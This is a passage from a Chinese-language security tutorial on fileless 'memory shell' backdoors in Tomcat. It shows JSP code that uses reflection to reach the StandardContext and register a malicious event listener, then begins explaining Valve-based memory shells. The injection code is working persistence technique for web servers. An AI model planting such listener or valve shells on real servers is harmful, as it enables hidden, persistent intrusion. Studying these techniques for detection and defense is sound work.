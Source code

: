 > 
>         }
>     }
> %>
> <%
>     ServletContext servletContext = request.getServletContext();
>     Field appctx = servletContext.getClass().getDeclaredField("context");
>     appctx.setAccessible(true);
>     ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
>     Field stdctx = applicationContext.getClass().getDeclaredField("context");
>     stdctx.setAccessible(true);
>     StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
>     ListenerDemo SRL = new ListenerDemo();
>     standardContext.addApplicationEventListener(SRL);
>     out.println("listener shell inject success");
> %>
> ```
测试效果

![image](fileless-shell.assets/144616650-c6a9df8f-36ed-4063-9874-eb7a82b7a27c.png)


### Valve 内存马

Tomcat内部Valve组件,与Filter, Interceptor这些概念类似.只不过Valve是针对Tomcat内部的，而Filter是Servlet的标准, Interceptor是基于框架层次上的.但是它们的工作方式都是一种责任链的传递来拦截Request, Response，然后进行自定义的处理。所以这里的valve型内存马也和之前的差不多，自定义一个含有恶意代码处理逻辑的valve接口的实现或valve接口实现类的继承，然后通过tomcat自带的机制添加即可。

#### 静态添加 valve

